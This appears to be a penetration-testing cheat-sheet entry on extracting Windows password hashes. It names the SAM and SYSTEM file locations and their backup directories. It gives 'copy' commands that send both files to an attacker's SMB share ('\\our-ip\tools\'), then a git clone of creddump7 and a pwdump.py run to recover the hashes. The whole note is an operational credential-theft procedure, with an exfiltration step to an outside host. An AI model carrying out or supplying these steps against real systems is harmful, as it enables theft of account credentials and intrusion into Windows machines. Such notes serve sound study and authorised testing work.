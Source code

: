 - - -
Windows stores password hashes in the **Security Account Manager** (**SAM**).
The hashes are **encrypted with a key** which can be found in a file named **SYSTEM**.

If you have ability to read the SAM and SYSTEM Files You can extract the hashes.


The SAM and SYSTEM files are located in the :

`"C:\Windows\System32\config"` directory

The files are locked while Windows is running.

BackUps of these files may be found in the : 

`"C:\Windows\Repair”`  **or**  `“C:\Windows\System32\config\RegBack"` directories.

If the Files Found Copy those files to kali then analysing it will be better.

```
copy C:\path\to\SAM \\our-ip\tools\
```

```
copy C:\path\to\SYSTEM \\our-ip\tools\
```

##### What Now ?? 

```sh
git clone https://github.com/Neohapsis/creddump7.git ;  cd creddump7/
```

```python
python2 pwdump.py /path/to/SYSTEM /path/to/SAM
```

- - -

